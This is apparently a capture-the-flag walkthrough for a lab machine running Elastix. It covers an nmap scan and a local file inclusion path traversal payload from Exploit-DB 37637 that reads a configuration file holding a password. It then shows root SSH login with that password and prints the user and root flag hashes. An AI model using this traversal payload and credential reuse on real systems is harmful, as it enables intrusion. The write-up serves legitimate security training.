



## INITAL ENUMERATION

```shell
nmap -sV 10.129.229.183 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-30 14:06 CET
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
Nmap scan report for 10.129.229.183
Host is up (0.096s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp?
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap?
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
Service Info: Host: 127.0.0.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.88 seconds

```

## WEB

Before visiting che port 443 I need to change the TLS version on Firfox's setting:




Once done, I can visit the page:


Some searching finds a local file inclusion vulnerability for Elastix 5.3.0 and 5.4.0; Exploit-DB 37637.

Exploit = https://www.exploit-db.com/exploits/37637/

So I can copy the path `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action` :



Cltr+U to see the source page:



I can try to log in SSH using `root` user and `jEhdIekWmdjE` as password, but I got an error:

```shell
ssh root@beep.htb                          
Unable to negotiate with 10.129.229.183 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

I can bypass using:

```shell
ssh -oHostKeyAlgorithms=+ssh-rsa -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.129.229.183


The authenticity of host '10.129.229.183 (10.129.229.183)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.229.183' (RSA) to the list of known hosts.
root@10.129.229.183's password: 
Last login: Wed Nov 15 12:55:38 2023

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.129.229.183

[root@beep ~]#
```

## USER FLAG

I can read user flag:

```shell
[root@beep fanis]# cat user.txt
2d97cefff483c37d92a1210d47be6bb6
```


## ROOT FLAG

And the root flag:

```shell
[root@beep ~]# cat root.txt
d81b7aa5be491a7d49fba8ea21eb45c3
```


